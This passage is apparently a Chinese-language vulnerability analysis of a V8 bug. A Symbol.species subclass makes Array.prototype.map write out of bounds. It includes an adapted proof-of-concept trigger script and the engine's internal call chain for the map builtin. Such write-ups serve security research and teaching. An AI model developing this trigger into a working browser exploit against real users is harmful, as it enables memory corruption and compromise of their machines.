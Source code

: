 为了方便下面的分析，我们对poc做一些微调(O_和a_都是参照源码来命名的，可以对照分析)：

```
var float_array;
function hex(i)
{
	return i.toString(16).padStart(16, "0");
}

class Array1 extends Array {
	constructor(len) {
	super(1);
	float_array = [1.1, 2.2];
	}
};
class MyArray extends Array {
	static get [Symbol.species]() {
		return Array1;
	}
}

o_ = new MyArray();

o_[2] = 3;
o_[8] = 9;

var a_ = o_.map(function(x) { return 0xddaa; });
%DebugPrint(o_);
%DebugPrint(a_);
```

##### 漏洞分析

array.map的调用链：
```
ArrayMap
	->args.GetReceiver();
	->args.GetOptionalArgumentValue(0, UndefinedConstant()); //获得callback参数
	->args.GetOptionalArgumentValue(1, UndefinedConstant());//获得thisArg参数
	->InitIteratingArrayBuiltinBody // 赋值操作
    ->GenerateIteratingArrayBuiltinBody
        ->o_ = CallStub(CodeFactory::ToObject(isolate()), context(), receiver());//o_保存Array.prototype.map的this对象
		->len_ = merged_length.value();//加载数组的长度
		->a_.Bind(generator(this));//调用generator函数并将结果返回保存在a_
			->MapResultGenerator() //generator函数的调用链如下
                ->ArraySpeciesCreate
                	->Runtime::kArraySpeciesConstructor
                        ->v8::internal::Object::ArraySpeciesConstructor
                            ->Array[Symbol.species] // 最终对象的Symbol.species 属性
		->HandleFastElements(processor, action, &slow, direction);//对每个元素调用processor函数进行赋值操作
			->MapProcessor //将o_（原数组）中的每个元素赋值调用callbackfn 并将结果保存到a_（新数组）中
                ->TryStoreArrayElement
```
